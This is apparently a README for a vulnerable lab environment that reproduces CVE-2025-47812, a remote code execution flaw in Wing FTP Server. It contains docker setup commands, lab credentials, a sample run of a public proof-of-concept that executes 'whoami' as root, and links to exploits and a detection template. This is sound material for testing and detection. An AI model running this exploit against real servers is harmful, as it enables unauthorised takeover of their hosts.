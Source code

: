 # CVE-2025-47812
Wing FTP Server versions <=7.4.3 allow remote code execution via NULL byte handling in login.

## Metrics
CVSSv3: N\A

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```

## Detection and exploitation example
1. Login to Wing FTP webadmin http://172.90.240.1:5466 (vulnforge\vulnforge123)
2. Add new domain, user is optional, you may leave Anonymous
3. Use [exploit by 4m3rr0r](https://github.com/4m3rr0r/CVE-2025-47812-poc):
```shell
python3 CVE-2025-47812.py -u http://172.90.240.1 -c whoami 

[*] Testing target: http://172.90.240.1
[+] Sending POST request to http://172.90.240.1/loginok.html with command: 'whoami' and username: 'anonymous'
[+] UID extracted: cf1edaeb8436e1c94bba464741b6c0affc8c973126bfd1a3ed296568f6599fe6
[+] Sending GET request to http://172.90.240.1/dir.html with UID: cf1edaeb8436e1c94bba464741b6c0affc8c973126bfd1a3ed296568f6599fe6

--- Command Output ---
root
----------------------
```
## Exploits and PoCs
https://github.com/4m3rr0r/CVE-2025-47812-poc  
https://www.exploit-db.com/exploits/52347  
https://github.com/Nouvexr/Wing-FTP-Server-7.4.4-RCE-Authenticated  

## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-47812.yaml  

## CTF Rooms

## References
[RCE Security: What the NULL?! Wing FTP Server RCE (CVE-2025-47812)](https://www.rcesecurity.com/2025/06/what-the-null-wing-ftp-server-rce-cve-2025-47812/)  
[Daily CyberSecurity: CVSS 10 RCE in Wing FTP Server (CVE-2025-47812) Allows Full Server Takeover, PoC Releases](https://securityonline.info/cvss-10-rce-in-wing-ftp-server-cve-2025-47812-allows-full-server-takeover-poc-releases/)  




